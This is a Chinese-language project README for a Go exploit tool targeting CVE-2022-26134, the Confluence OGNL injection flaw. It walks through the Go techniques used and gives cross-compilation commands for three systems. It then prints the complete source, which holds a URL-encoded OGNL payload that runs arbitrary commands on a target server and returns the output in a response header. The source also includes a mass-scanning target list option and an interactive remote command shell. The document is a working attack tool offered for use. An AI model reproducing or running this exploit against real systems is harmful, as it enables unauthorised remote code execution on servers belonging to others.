


# CVE-2022-26134

>[!Note]
>
>项目

## 知识点

### flag包使用

> 设置参数遍历

```go
flag.StringVar(&proxy, "proxy", "", "代理")
flag.StringVar(&target, "url", "", "目标")
flag.StringVar(&listUrl, "list", "", "目标列表")
```

### 文件读写

```go
filePath := listUrl
file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE, 066)
if err != nil {
    fmt.Println("文件打开失败", err)
}
defer file.Close()
//读原来文件的内容，并且显示在终端
reader := bufio.NewReader(file)
for {
    target, err := reader.ReadString('\n')
    if err == io.EOF {
        break
    }
    targets = append(targets, urlHandler(target))
}
```

### 字符串替换

```go
if !strings.HasPrefix(target, "http") {
    target = "http://" + target
}
// 有/结尾的就去掉/
if strings.HasSuffix(target, "/") { // 去掉后缀 /
    target = strings.TrimSuffix(target, "/")
    //fmt.Println(target)
}
```

### 设置请求代理

```go
if proxy != "" {
    url_i := url.URL{}
    urlProxy, error := url_i.Parse(proxy)
    if error != nil {
        fmt.Println(error.Error())
        return
    }
    transport = &http.Transport{Proxy: http.ProxyURL(urlProxy)}
    fmt.Println("设置代理: ", proxy, " 成功")
}
```

### 用户读入

> 利用bufio解决 Scanf、Scan、Scanln不读入空格的问题

```go
fmt.Print("\n输入命令：")
reader := bufio.NewReader(os.Stdin)
com, _, _ := reader.ReadLine()
if string(com) != "" {
    break
}
```


### 交叉编译

#### windows编译

>[!Tip]
>
>windows下编译三种系统

```powershell
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=windows
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
```

```powershell
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=linux
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
```

```powershell
set CGO_ENABLED=0
set GOARCH=amd64
set GOOS=darwin 
go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
```

#### linux 编译

> [!Tip]
>
> linux 下编译三种系统

```bash
CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
```

#### Mac编译

> [!Tip]
>
> Mac下编译三种系统

```bash
CGO_ENABLED=0 GOOS=darwin GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_darwin
CGO_ENABLED=0 GOOS=windows GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_windows.exe
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -trimpath -o release/CVE-2022-26134_linux
```

## 代码

```go
package main

import (
	"bufio"
	"bytes"
	"flag"
	"fmt"
	"io"
	"net/http"
	"net/url"
	"os"
	"strings"
)

var target string
var targets []string
var listUrl string
var proxy string
var transport = &http.Transport{}

func Init() {
	flag.StringVar(&proxy, "proxy", "", "代理")
	flag.StringVar(&target, "url", "", "目标")
	flag.StringVar(&listUrl, "list", "", "目标列表")
}
func Banner() {
	fmt.Println(`
           __.__  .__       _______   
__  _  __ |__|  | |__| ____ \   _  \  
\ \/ \/ / |  |  | |  |/    \/  /_\  \ 
 \     /  |  |  |_|  |   |  \  \_/   \
  \/\_/\__|  |____/__|___|  /\_____  /
      \______|            \/       \/ 
        CVE-2022-26134`)
}

func urlHandler(target string) string {
	if !strings.HasPrefix(target, "http") {
		target = "http://" + target
	}
	// 有/结尾的就去掉/
	if strings.HasSuffix(target, "/") { // 去掉后缀 /
		target = strings.TrimSuffix(target, "/")
		//fmt.Println(target)
	}

	return target
}

func checkProxy() {
	if proxy != "" {
		url_i := url.URL{}
		urlProxy, error := url_i.Parse(proxy)
		if error != nil {
			fmt.Println(error.Error())
			return
		}
		transport = &http.Transport{Proxy: http.ProxyURL(urlProxy)}
		fmt.Println("设置代理: ", proxy, " 成功")
	}
}

func checkArgs() {
	if target != "" {
		targets = append(targets, urlHandler(target))
	}
	if listUrl != "" {
		filePath := listUrl
		file, err := os.OpenFile(filePath, os.O_WRONLY|os.O_CREATE, 066)
		if err != nil {
			fmt.Println("文件打开失败", err)
		}
		defer file.Close()
		//读原来文件的内容，并且显示在终端
		reader := bufio.NewReader(file)
		for {
			target, err := reader.ReadString('\n')
			if err == io.EOF {
				break
			}
			targets = append(targets, urlHandler(target))
		}
	}
	if targets == nil {
		//flag.Usage()
		os.Exit(0)
	}
}
func check(t string) (b bool) {
	b = false
	vulurl := t + "/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22whoami%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/"
	req, er := http.NewRequest("GET", vulurl, bytes.NewReader([]byte{}))
	if er != nil {
		fmt.Println(er)
		fmt.Println("请求失败")
		return
	}
	req.Header.Set("User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:71.0) Gecko/20100101 Firefox/71.0")
	client := http.Client{Transport: transport, CheckRedirect: func(req *http.Request, via []*http.Request) error { return http.ErrUseLastResponse }}
	resp, er := client.Do(req)
	if er != nil {
		return
	}
	status := resp.StatusCode
	header := resp.Header.Get("X-Cmd-Response")
	if header == "" && status == 302 {
		b = false
		fmt.Println("目标：", t, "不存在漏洞")
	} else {
		b = true
		fmt.Println("目标：", t, "存在漏洞")
	}
	return

}
func exp(t string, comm string) {
	vulurl := t + `/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22` + comm + `%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/`
	req, er := http.NewRequest("GET", vulurl, bytes.NewReader([]byte{}))
	if er != nil {
		fmt.Println(er)
		fmt.Println("请求失败")
		return
	}
	client := http.Client{Transport: transport, CheckRedirect: func(req *http.Request, via []*http.Request) error { return http.ErrUseLastResponse }}
	resp, _ := client.Do(req)
	res := resp.Header.Get("X-Cmd-Response")
	res = strings.TrimSpace(res)
	fmt.Print("\n执行结果：\n")
	fmt.Printf("%v", res)
}
func main() {
	fmt.Println(os.Args)
	Banner()
	Init()
	flag.Parse()
	checkArgs()
	checkProxy()
	var successTargets []string
	for _, t := range targets {
		b := check(t)
		if b {
			successTargets = append(successTargets, t)
		}
	}
	if successTargets != nil {
		var i int
		var t string
		var comm string

		fmt.Println("选择目标：")
		for i, tar := range successTargets {
			fmt.Println("目标：", tar, " , ", i)
		}
		if len(successTargets) == 1 {
			t = successTargets[0]
		} else {
			_, err := fmt.Scanln(&i)
			if err != nil {
				t = successTargets[0]
			}
		}

		t = successTargets[i]
		for {
			fmt.Print("\n输入命令：")
			reader := bufio.NewReader(os.Stdin)
			com, _, _ := reader.ReadLine()
			if string(com) == "" {
				break
			}
			comm = strings.Replace(string(com), " ", "%20", -1)
			exp(t, comm)
		}
	} else {
		fmt.Println("没有目标存在漏洞")
	}

}

```


## 遇到的问题


> [!DANGER]
>
> go get 时 可以直接使用 `go get -u -v github.com/wjlin0/CVE-2022-26134` 就可将二进制文件拉去至`$GOPATH/bin/`目录下如果设置了全局变量就可直接使用，而不需要 `go mod init github.com/wjlin0/CVE-2022-26134` 之后再  `go get -u -v github.com/wjlin0/CVE-2022-26134` 因为他不是一个软件包如下图




## 运行实例图



